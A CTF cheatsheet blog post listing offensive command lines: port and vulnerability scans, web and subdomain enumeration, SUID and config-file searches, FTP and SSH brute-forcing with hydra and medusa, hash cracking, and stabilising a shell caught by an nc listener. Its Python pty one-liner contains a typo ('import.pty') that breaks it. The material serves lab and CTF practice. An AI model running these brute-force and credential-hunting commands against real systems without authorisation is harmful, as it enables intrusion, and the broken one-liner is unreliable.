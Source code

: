 ```yaml
---
title: CTF Cheatsheet
date: 2024-01-26
categories: [Cheatsheet, CTF]
tags: [cheatsheet, ctf, capturetheflag, reverse-shell, shell, rce, hash, script, python, john, hashcat, suid]
img_path: /assets/cheatsheet
published: true
image:
    path: cheatsheetCover.png
---
```


> _Image taken from [CTF-CheatSheet](https://github.com/Rajchowdhury420/CTF-CheatSheet)._

## Port scanning

```bash
# HailMary port-scanning
sudo incursore.sh --type All -H $IP
# TCP SYN common ports scanning
sudo nmap -sS -A -Pn --min-rate 10000 $IP
# TCP SYN all ports scanning
sudo nmap -sS -A -Pn --min-rate 10000 -p- $IP
```

## Vulnerability scanning

```bash
# start nessus on WSL2
sudo /opt/nessus/sbin/nessus-service
```

## Web server enumeration

```shell
# view page-source
# check site's structure with ZAP/Burp

# check for WAF
nmap -Pn -p 443 --script http-waf-detect,http-waf-fingerprint $IP
wafw00f https://$IP

# check tech used (similar to Wappalyzer)
whatweb https://$IP

# check for robots file
curl https://$IP/robots
curl https://$IP/robots.txt

# banner grabbing
curl -IL https://$IP/

# dir-busting and file search
ffuf -u http://$domain/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -e .aspx,.html,.php,.txt,.jsp -c -ac
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .aspx,.html,.php,.txt,.jsp
dirsearch -u http://$IP
nikto -h http://$IP
feroxbuster -u $URL

# subdomain-busting
gobuster dns -d $IP -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt 
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u http://$IP -H "HOST: FUZZ.$domain" -ac -c 
# vhost-busting
gobuster vhost -u $URL -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt --append-domain
# with local DNS as a resolver
$ gobuster dns -d $domain -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r $IP:53

# parameter enum
$ ffuf -u http://internal.analysis.htb/users/list.php?FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac
```

## File enumeration

### Linux

```bash
# search for SUID files
$ find / -perm -4000 2>/dev/null
$ find / -perm -u=s 2>/dev/null
```

If machine has a web server, check for database configuration files:

```bash
# searching for configuration files
/var/www/html$ find . | grep config
# searching for database-related strings within the configuration file
/var/www/html$ grep database <filePath>
```

## FTP

```shell
# bounce attack
$ nmap -Pn -v -n -p80 -b <username>:<pass>@<IP> <target2scan>

# brute-force
$ medusa -u <username> -P <passList> -h <IP> -M ftp
$ hydra -l <username> -P <passList> ftp://<IP> -t 48
```

## SSH

```shell
# check SSH for vulns
$ python3 /opt/ssh-audit/ssh-audit.py $IP
# brute-force creds
$ hydra -L <userList> -P <passwordList> ssh://$IP
```

## Hash cracking

> [Hashcat-examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

```bash
# using hashcat's autodetect mode ('--username' if hashes are in <name:hash> format)
$ hashcat <hashes> /usr/share/wordlists/rockyou.txt --username
# brute-force hashes using the mode found
$ hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt --username
# show cracked hashes
$ hashcat -m 3200 --username --show hashes
```

> [John hash formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

```bash
# list formats
$ john --list=formats
# brute-force
john <hashes> --wordlist=/usr/share/wordlists/rockyou.txt
```

## Shell stabilization

```bash
# shell stabilization using script
$ which script
which script
/usr/bin/script
$ script -O /dev/null -q /bin/bash
script -O /dev/null -q /bin/bash
$ bash
bash
$ ^Z
[1]+  Stopped                 nc -lvnp 1337

┌──(kali㉿CSpanias)-[~]
└─$ stty raw -echo; fg
nc -lvnp 1337

www-data@50bca5e748b0:/var/www/html$
```

```bash
# shell stabilization with Python
$ python3 -c 'import.pty;pty.spawn("/bin/bash")'
$ ^Z
[1]+  Stopped                 nc -lvnp 1337
# background shell
┌──(kali㉿CSpanias)-[~]
└─$ stty raw -echo; fg
```

Get values for the `rows` and `cols` variables from our attack host:

```bash
# get attack host's shell rows and cols values
$ stty -a
speed 38400 baud; rows 51; columns 209; line = 0;
<SNIP>
```

Set the same values on target:

```bash
www-data@50bca5e748b0:/var/www/html$ stty rows 51 cols 209
www-data@50bca5e748b0:/var/www/html$ export TERM=xterm
```